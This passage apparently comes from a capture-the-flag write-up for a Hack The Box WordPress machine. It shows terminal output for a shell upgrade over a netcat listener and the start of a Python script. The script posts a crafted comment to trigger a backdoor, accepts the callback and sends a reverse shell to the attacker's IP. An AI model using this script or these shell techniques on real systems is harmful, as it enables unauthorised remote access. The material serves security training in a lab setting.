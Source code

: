 No Python on the box, but `script` works for a shell upgrade:

```

www-data@wordpress:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@wordpress:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@wordpress:/var/www/html$

```

### Script

In case I need to come back and get a shell again, I’ll update my script to handle the POST request as well as the sending of the command. It takes my local IP and the port I want a shell on. First it sets up the listening port. If I don’t do this first, the response can come in before I’m listening for it. But `s.listen(1)` isn’t blocking, so I can call that and then continue. Next I’ll send the POST to trigger the connection back on 20053. After that, I’ll accept the connection, and send the reverse shell.

```

#!/usr/bin/env python3

import requests
import socket
import sys
from binascii import unhexlify

if len(sys.argv) != 3:
    print(f"Get shell from wordpress.toby.htb\n\n{sys.argv[0]} LHOST LPORT")
    sys.exit()

ip = sys.argv[1]
port = sys.argv[2]

# set up listener
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0',20053))
s.listen(1)

# trigger connection
try:
    requests.post('http://wordpress.toby.htb/wp-comments-post.php',
        data = {"comment": f"746f6279{ip}", "author": "0xdf",
            "email": "help@toby.htb", "url": "http://test.toby.htb/",
            "wp-comment-cookies-consent": "yes", "submit": "Post Comment",
            "comment_post_ID": "5", "comment_parent": "0"},
        timeout = 0.5)
except requests.exceptions.Timeout:
    pass

# accept and request shell
c, address = s.accept()
print(f'[+] Connection from {address[0]}')
data = c.recv(1024)
guid, hex_msg = data.split(b'|')
```